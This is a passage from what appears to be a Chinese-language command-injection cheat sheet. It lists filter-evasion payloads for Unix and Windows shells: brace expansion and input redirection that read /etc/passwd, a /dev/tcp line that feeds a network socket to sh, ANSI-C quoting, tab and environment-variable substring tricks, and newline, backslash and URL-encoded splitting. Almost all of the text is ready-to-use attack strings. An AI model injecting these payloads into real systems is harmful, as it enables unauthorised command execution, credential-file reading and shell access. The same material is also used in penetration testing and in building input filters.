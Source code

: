 * 在某些shell中，大括号扩展会生成任意字符串。执行时，shell会将大括号内的项目视为单独的命令或参数。

  ```powershell
  {cat,/etc/passwd}
  ```

* 输入重定向。`<`字符告诉shell读取指定文件的内容。

  ```powershell
  cat</etc/passwd
  sh</dev/tcp/127.0.0.1/4242
  ```

* ANSI-C引用

  ```powershell
  X=$'uname\x20-a'&&$X
  ```

* 制表符有时可以用作空格的替代。在ASCII中，制表符由十六进制值`09`表示。

  ```powershell
  ;ls%09-al%09/home
  ```

* 在Windows中，`%VARIABLE:~start,length%`是用于对环境变量进行子字符串操作的语法。

  ```powershell
  ping%CommonProgramFiles:~10,-18%127.0.0.1
  ping%PROGRAMFILES:~10,-5%127.0.0.1
  ```

### 使用换行符绕过

命令也可以用换行符按顺序运行

```bash
original_cmd_by_server
ls
```

### 使用反斜杠换行绕过

* 命令可以通过使用反斜杠后跟换行符来分成多个部分

  ```powershell
  $ cat /et\
  c/pa\
  sswd
  ```

* URL编码形式如下：

  ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```

### 使用波浪号扩展绕过

```powershell
echo ~+
echo ~-
```
